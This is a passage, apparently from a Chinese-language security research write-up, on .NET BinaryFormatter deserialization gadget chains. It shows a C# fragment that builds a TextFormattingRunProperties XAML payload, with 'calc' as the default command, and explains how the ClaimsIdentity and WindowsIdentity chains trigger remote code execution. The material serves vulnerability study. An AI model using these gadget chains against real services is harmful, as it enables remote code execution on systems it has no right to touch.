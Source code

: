 ```plain
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

利用2(ysoserial的写法)：将我们的TextFormattingRunProperties的payload，赋值到m\_serializedClaims的字段，类型为String，我们再利用BinaryFormatter去反序列化ClaimsIdentity类时，会调用OnDeserializedMethod方法，然后再调用DeserializeClaims方法中，就再次对我们的m\_serializedClaims进行反序列化（有点二次反序列化的味道）

[![](assets/1701606816-f4a01c26466b54fc7ea5d5929e67ec3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102105208-d02c46c4-792a-1.png)

#### WindowsIdentity+TextFormattingRunProperties

**调用的类**：WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：还是一样的，去寻找`new BinaryFormatter().Deserialize`

**思路**：WindowsIdentity继承自ClaimsIdentity，ISerializable，在反序列化时会调用其构造函数，同时也调用了父类的反序列化构造函数，三个字段`actor`和`bootstrapContextKey`均可以进行binaryformatter反序列化。所以在info中设置key为System.Security.ClaimsIdentity.actor或bootstrapContext或claims，值为TextFormattingRunProperties的Base64 payload，即可触发RCE

流程截图：

[![](assets/1701606816-35d776bc45792c1a97f3c75167d12c7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102105228-dbf89d54-792a-1.png)
